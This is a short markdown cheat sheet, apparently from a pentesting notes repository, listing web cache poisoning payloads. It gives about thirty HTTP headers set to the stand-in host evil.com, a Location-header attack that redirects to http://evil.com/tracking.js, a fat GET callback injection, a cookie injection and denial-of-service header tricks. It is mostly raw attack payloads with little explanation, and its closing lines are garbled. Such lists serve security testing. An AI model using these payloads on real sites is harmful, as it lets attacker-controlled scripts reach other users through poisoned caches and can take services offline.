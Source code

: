 # Cache Poisoning

> Header Response: X-Cache: hit, Body Response: evil.com

## Header Inject
```http
X-Forwarded-Host: evil.com
X-Forwarded-Scheme: nothttps
X-Forwarded-Server: evil.com
X-Host: evil.com
\: evil.com
User-Agent: evil.com
X-Original-Url: evil.com
X-Forwarded-Proto: evil.com
X-Original-URL: evil.com
X-Get-Cache-Key: evil.com
Accept-Version: evil.com
Acunetix-Header: evil.com
Api-Version: evil.com
Content-Type: evil.com
Fastly-Client-Ip: evil.com
Fastly-Ff: evil.com
Fastly-Host: evil.com
Fastly-Ssl: evil.com
Trailer: evil.com
X-Amz-Server-Side-Encryption: evil.com
X-forwarded-Prefix: evil.com
X-Original-Host: evil.com
Handle: evil.com
X-Rewrite-url: evil.com
Authorization: evil.com
X-Amz-website-Redirect-Location: evil.com
X-Http-Method-Override: evil.com
X-Forwarded-Proto: evil.com
Capitalized host header: evil.com
```
### Location Attack
```http
Header Request
X-Forwarded-Scheme: http
X-Forwarded-Prefix: evil.com
```
```http
Header Response
Location: http://evil.com/tracking.js
```

### Fat GET Request
```http
GET /js/geolocate.js?callback=setCountryCookie
callback=arbitraryFunction
```
```http
HTTP/1.1 200 OK
BODY
arbitraryFunction({"country" : "United Kingdom"})
```
## Cookie Inject
```http
Cookie: feHost=something/evil.com
```

## DOS attack
```http
X-Forwarded-Port: 123
X-Forwarded-Port: 123 
Transfer-Encoding: 123
zTRANSFER-ENCODING: dgsht --> HTTP/1.1 501 NOT_IMPLEMENTED
```
```http
Header Response
HTTP/2 400
X-Cache: hit
```

## Burp Suite Extension
Guess Headers!
Guess Eviriting!
